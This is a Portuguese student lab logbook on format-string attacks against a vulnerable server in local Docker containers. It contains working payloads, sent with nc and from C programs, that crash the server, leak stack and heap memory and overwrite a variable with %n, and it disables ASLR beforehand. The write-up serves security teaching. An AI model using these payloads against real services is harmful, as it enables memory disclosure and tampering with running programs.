 # LOGBOOK 7 - Format Strings

## Preparação

Começamos por desligar address space randomization que aleatoriza o início da heap ou stack.

```bash
$sudo sysctl -w kernel.randomize_va_space=0
```

## O programa vulnerável

Analisamos `program.c` e identificamos a vulnerabilidade na função `myprintf(char *msg)` onde se tenta dar print de msg.
Compilamos utilizando o Makefile, que compila para 32 e 64 bits.

### Criar os containers

Criamos os containers e iniciamos num dado terminal. Utilizamos os seguintes comandos.

```bash
docker-compose build
docker-compose up
```

o ficheiro docker-compose.yml vai entáo fazer que dois servidores sejam iniciados
Após isto, abrimos outro terminal.

## Task 1: Crashing the program

No novo terminal, que será usado para comunicar com os servidores, testamos o envio de uma string para o servidor indicado.

```bash
echo 'hello' | nc 10.9.0.5 9090
```

O servidor retornou o seguinte:

![](../pictures/log7pic2.png) <br>

Enviando a string `'%s'` para o servidor vai fazer com que a format string tente ir buscar o endereço acima de si na stack e tente imprimir a string que lá estaria. O servidor "crashou" fazendo isto, não houve a mensagem "Returned Properly".

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

Para conseguirmos imprimir os primeiros 4 bytes, precisamos que o input seja um valor que facilmente identificamos. Usámos `"DEAD"`, que em hexadecimal dá `"44454144"`.

Demos como input `"DEAD"` concatenado com vários `"%08x"`.

```bash
echo "DEAD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

O servidor retornou o seguinte:

![](../pictures/log7pic3.png) <br>

Como dá para reparar, o final `"44414544"` são os bytes invertidos do endereço da string `"DEAD"` dado como input.

Sendo que cada endereço é constituído por 8 caracteres e que entre `"DEAD"` e `"44414544"` existem 504 caracteres, então existem 63 endereços(504/8) na stack entre a format string e o buffer.

Em suma, para imprimir os primeiros 4 bytes do input inicial é necessário criar uma string com 64 `'%x'`, sendo endereços intermédios nos primeiros 63 e no último os 4 bytes (32 bits) iniciais do input.

### Task 2.B: Heap Data

Nesta tarefa os princípios são os mesmos da tarefa anterior, pois é o mesmo programa, desta vez queremos imprimir o conteúdo de uma string presente na Heap no endereço `0x080b4008`.

![](../pictures/log7pic4.png) <br>

O endereço `0x080b4008` pode ser codificado em string como `"\x08\x0b\x40\x08"`. Para obtermos a string escondida, precisamos de colocar o endereço invertido `"\x08\x40\x0b\x08"` seguido de 63 `"%08x"` e de um `'%s'`, assim a format string lerá este endereço e retornar a string.

Código executado:

```c
#include <string.h>
#include <stdlib.h>

int main() {

    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

O output do servidor:

![](../pictures/log7pic5.png) <br>

Por fim, a string escondida do endereço é `"A secret message"`.

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

Para a conclusão desta tarefa, precisamos de alterar o valor da variável `target` com valor inicial `0x11223344` e o endereço `0x080e5068`.

Nas format string conseguimos escrever na zona de memória do argumento passado como parâmetro o número de caracteres escritos até ali, com o comando `%n`.

Na tarefa 2.B, lemos o endereço selecionado, aqui vamos escrever, mas funciona como anteriormente demonstrado.

Código executado:

```c
#include <string.h>
#include <stdlib.h>

int main() {

    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

O output do servidor:

![](../pictures/log7pic6.png) <br>

### Task 3.B: Change the value to 0x5000

Na tarefa 3.A, tinhamos de mudar o valor de `target` para qualquer coisa, mas agora temos de mudar para um valor em concreto: `0x5000`, ou seja `20480` em decimal. O comando `%n`, como vimos anteriormente, vai escrever o número de caracteres escritos até ali, assim o input até `%n` terá `20480` caracteres. Para um input tão extenso, utilizamos a notação `%.NX`, com `N = 20480 - 4 - 62*8 = 19980`, para escrever os 19990 caracteres restantes com o valor 0.

Código executado:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}
```

 output do servidor:

![](../pictures/log7pic7.png) <br>
![](../pictures/log7pic8.png) <br>

Por fim, o valor da variável `target` é `0x00005000`.